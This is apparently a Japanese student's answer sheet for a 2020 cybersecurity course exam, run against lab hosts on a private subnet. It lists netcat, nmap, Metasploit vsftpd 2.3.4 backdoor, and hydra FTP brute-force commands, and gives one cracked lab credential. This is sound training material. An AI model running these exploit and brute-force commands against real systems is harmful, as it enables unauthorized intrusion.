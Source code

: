 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### 1.
#### サーバー側コマンド

```sh
# nc -lvp 5555

```
#### クライアント側コマンド

```sh
# nc 192.168.33.11 5555

```
### 1.
#### サーバー側コマンド

```sh
# nc -lvp 5555 < file

```
#### クライアント側コマンド

```sh
# nc 192.168.33.12 5555 > file

```

## 問2 [Password Crack]

### 1.
```md
<!--   -->

```

### 2.
```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# nmap 192.168.33.0/24

```

### 2. version scan

```sh
# nmap 192.168.33.12 

```

## 問4 [Metasploit Framework]

```sh
# use unix/ftp/vsftpd_234_backdoor
# set RHOSTS 192.168.33.12
# exploit

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# hydra -L user.list -P passwd.list -t 8 -o result.lst 192.168.33.11 ftp

```

### 2. 解析結果

```sh
# msfadmin msfadmin

```

## 問6 [Packet Sniffer]

```sh
# http

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  49点 -->

```

## 問9 [講義の感想]

1.

```md
<!-- ncやhydra,johnなどを使用し、パスワード解析を学んだ  -->

```

2.
```md
<!-- とても難しかったが、セキュリティについて学ぶことができたので楽しかったです。  -->

```
